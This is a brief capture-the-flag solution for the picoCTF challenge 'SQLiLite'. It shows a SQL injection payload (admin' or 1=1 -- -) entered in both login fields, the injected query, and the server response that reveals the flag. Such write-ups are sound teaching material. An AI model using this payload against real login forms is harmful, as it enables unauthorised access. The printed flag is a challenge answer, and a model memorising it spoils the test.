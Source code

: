 # SQLiLite
Can you login to this website?


#### Hints
- None

### Solution
```bash
SQL query: SELECT * FROM users WHERE name='admin' or 1=1 -- -' AND password='admin' or 1=1 -- -'
```

```bash
<pre>username: admin&#039; or 1=1 -- -
password: admin&#039; or 1=1 -- -
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; or 1=1 -- -&#039; AND password=&#039;admin&#039; or 1=1 -- -&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>
```